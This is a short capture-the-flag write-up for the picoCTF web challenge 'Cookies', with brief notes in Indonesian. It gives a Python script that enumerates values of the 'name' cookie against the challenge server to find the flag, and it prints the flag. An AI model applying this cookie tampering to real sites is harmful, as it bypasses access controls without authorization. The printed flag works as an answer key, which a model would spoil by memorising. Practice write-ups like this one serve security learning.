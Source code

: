 <h1>Cookies</h1>
<p>Who doesn't love cookies? Try to figure out the best one. http://mercury.picoctf.net:29649/</p>
<h3>Solution</h3>
<p>Eksekusi Cookies['name'] = 1 s/d 15, atau Cookies['name'] = 18 Tepatnya</p>

```python3
import requests

url = 'http://mercury.picoctf.net:29649/'
for i in range(20):
    cookies = {'name':str(i)}
    response = requests.get(url,cookies=cookies).text
    if 'picoCTF{' in response:
        print(response)
```

<h3>Flag</h3>
<p>picoCTF{3v3ry1_l0v3s_c00k135_a1f5bdb7}</p>

